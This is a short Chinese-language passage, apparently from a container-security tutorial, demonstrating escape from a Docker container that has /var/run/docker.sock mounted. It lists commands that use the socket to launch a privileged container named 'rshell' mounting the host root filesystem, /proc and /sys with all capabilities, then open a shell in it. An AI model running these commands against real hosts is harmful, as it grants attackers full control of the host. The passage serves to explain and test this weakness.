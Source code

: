![img](assets/1700701638-0b889ae40be96c333be893e3cf666217.png)  
当攻击者可控的容器内挂载了该文件，我们也可以对其进行逃逸。  
首先我们用如下命令创建一个特权测试容器：

```coffeescript
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock  d6e46aa2470d
```

比如我们控制了上述容器，并发现其挂载了 docker.sock：

![image-20201209200847051](assets/1700701638-a703bbc39b3a4c924b5e765823a1c4f7.png)  
那么我们可以利用/var/run/docker.sock 创建特权容器（附录 5）：

1.  `docker -H unix:///var/run/docker.sock pull alpine:latest`
2.  `docker -H unix:///var/run/docker.sock run -d -it --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest`
3.  `docker -H unix:///var/run/docker.sock start rshell`
4.  `docker -H unix:///var/run/docker.sock exec -it rshell /bin/sh`

最终发现逃逸成功：  